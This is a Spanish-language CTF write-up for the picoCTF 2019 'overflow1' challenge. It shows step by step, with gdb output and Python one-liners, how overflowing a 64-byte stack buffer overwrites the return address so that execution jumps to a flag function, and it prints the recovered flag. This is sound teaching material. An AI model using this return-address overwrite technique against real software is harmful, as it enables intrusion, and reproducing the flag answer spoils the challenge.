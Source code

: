 Overflow1
============
###### You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln) ? You can find it in /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 on the shell server. [Source](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln.c).
---
El ejercicio nos dice que debemos lograr cambiar la dirección de retorno y que nos lleve a la función `flag`.

Ya con los archivos hacemos `file *` 
```
$ file *
vuln:      ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
vuln.c:    C source, ASCII text
```
Veamos que hace el programa.
```
$ ./vuln 
Give me a string and lets see what happens: 
hello
Woah, were jumping to 0x8048705 !
```
Simplemente nos pide un input y nos dice la instrucción a la que hemos saltado.
Así que cuando logremos llegar a la función `flag`, supongo que nos mostrara la dirección.

Source [vuln.c](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln.c)

``` C
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  ...
  fgets(buf,FLAGSIZE,f);
```
Algunos detalles de assembly antes de seguir.

| register | architecture | descripcion |
| :-------:| :----------: | :-----------|
| eip      | 32 bits      | El registro que almacena la siguiente instrucción a la cual ir |
| rip      | 64 bits      | <Instruction pointer register> |
| ebp      | 32 bits      | El registro que apunta a una ubicación fija dentro del marco de una función, así sera más fácil acceder a variables y argumentos |
| rbp      | 64 bits      | <Base pointer register> |


Siguiendo con el fuente, nos encontramos con un buffer de 64, haciendo la prueba de fuego.
```
$ python -c 'print "A"*64' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
```
Vemos que no pasa nada, ya que los siguientes 4 bits guardaran la data que tenga el registro `%ebp` y los siguientes 4 bytes tendrán la dirección de retorno (almacenada en `%eip`).

Lo explica Dhaval Kapil en su brutal [articulo](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

Sumaremos los 4 bytes de %eip y los 4 bytes de %ebp, se los agregamos a los 64 del buffer
```
$ python -c 'print "A"*72' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Violación de segmento
```
Obtenemos el overflow, bien.

Saquemos la direccion en memoria de la funcion `flag`, con gdb, objdump, ida.. Usa el de preferencia.
```
gdb ./vuln
info functions
...
0x080485e6  flag
...
```
Un detalle importante para este paso es conocer si nuestro sistema es [little-endian o big-endian](http://wikitronica.labc.usb.ve/index.php/Little_Endian_y_Big_Endian)
Esto decidirá como va a leer nuestro programa el procesador.

Si eres un `little-endian` (un pequeño indio e.e), entonces debemos colocar la dirección de `flag` en reverso.

i.e: `0x080485e6  flag` entonces pondremos `e6` `85` `04` `08`
```
$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
Violación de segmento
```
¿Por que habrá salido dos veces la instrucción?
```
$ gdb ./vuln -q
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gdb-peda$ b vuln
Breakpoint 1 at 0x8048663
gdb-peda$ r <<< $(python -c 'print "A"*72 + "\xe6\x85\x04\x08"')
```
```
gdb-peda$ c
Continuing.
Woah, were jumping to 0x8048700 !
[----------------------------------registers-----------------------------------]
EAX: 0x22 ('"')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffffff 
EDX: 0xf7fa4010 --> 0x0 
ESI: 0xf7fa2000 --> 0x1d6d6c 
EDI: 0xf7fa2000 --> 0x1d6d6c 
EBP: 0xffffd1b8 --> 0x80485e6 (<flag>:	push   ebp)
ESP: 0xffffd1b4 ("AAAA\346\205\004\b\005\207\004\b\001")
```
Revisando en gdb no he entendido por que, pero seguiré investigando.

Aún no hemos llegado a la dirección de la función `flag`
```
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
```
Si intentamos `"A"*73` vemos esto:
```
$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
Woah, were jumping to 0x8040008 !
```
##### Hemos cambiado el registro que direcciona!!

Why do this :0?
- Sencillamente son los 4 bytes que ocupa la dirección de la función `flag` que estamos agregando despues de imprimir las `"A"`.
```
$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```
`Woah, were jumping to 0x80485e6 !`
Y ahí lo tenemos, estamos en la dirección de la función `flag`

Si lo corremos en la shell de picoCTF
```
pico-2019:/$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```
##### picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}
